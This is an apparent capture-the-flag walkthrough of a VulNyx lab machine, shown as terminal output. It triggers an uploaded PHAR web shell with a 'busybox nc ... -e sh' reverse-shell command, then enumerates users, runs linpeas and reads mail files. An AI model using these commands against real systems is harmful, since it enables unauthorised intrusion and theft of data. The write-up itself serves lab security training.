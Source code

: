 ```
┌──(nabla㉿kali)-[~]
└─$ curl 'http://jerry.nyx/request/job_request_files/25-06-04_test.phar?cmd=busybox+nc+192.168.247.128+1337+-e+sh'
```

```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.227] 56620

whoami
www-data
```

```
ls /home
elaine
jerry
kramer

ls /var/mail
elaine
jerry

./linpeas.sh > linpeas.output
```

```
┌──(nabla㉿kali)-[~]
└─$ cat linpeas.output

[SNIP]

╔══════════╣ Unexpected in /opt (usually empty)
total 16
drwxr-xr-x  4 root root 4096 Mar  8  2024 .
drwxr-xr-x 18 root root 4096 Mar  8  2024 ..
drwxr-xr-x  2 root root 4096 Mar  8  2024 backups_mail
drwxr-xr-x  2 root root 4096 Mar  8  2024 scripts

[SNIP]

╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 1329 Mar  8  2024 /opt/backups_mail/backup_mail_1709916924131.zip
-rw-r--r-- 1 root root 1329 Mar  8  2024 /opt/backups_mail/backup_mail_1709916925385.zip
-rw-r--r-- 1 root root 875 Mar  8  2024 /opt/scripts/backup.js

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ cat var/mail/elaine 

From elaine@jerry  Fri Mar  8 10:03:40 2024
Return-Path: <elaine@jerry>
X-Original-To: elaine@vulnyx.com
Delivered-To: elaine@vulnyx.com
Received: by vulnyx.com (Postfix, from userid 1004)
        id 47219A0346; Fri,  8 Mar 2024 10:03:40 -0600 (CST)
Subject: Kramer & Newman Clash at New Years
To: <elaine@vulnyx.com>
User-Agent: mail (GNU Mailutils 3.15)
Date: Fri,  8 Mar 2024 10:03:40 -0600
Message-Id: <20240308160340.47219A0346@vulnyx.com>
From: elaine@jerry
```